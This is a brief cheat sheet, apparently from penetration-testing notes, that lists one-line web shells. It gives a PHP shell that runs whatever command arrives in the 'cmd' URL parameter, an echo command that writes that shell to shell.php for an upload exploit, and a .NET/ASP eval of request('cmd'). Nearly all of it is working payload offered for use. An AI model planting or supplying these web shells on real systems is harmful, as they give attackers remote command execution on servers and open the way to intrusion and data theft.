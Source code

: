 
### PHP

Get to this cli by adding to the url   ?cmd=<COMMAND>
can also save this as shell.php for upload exploit
```PHP
<?php system($_GET["cmd"]); ?>
```


Upload file:
```CLI
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
```

### .NET
```.NET
<% eval request('cmd') %>
```

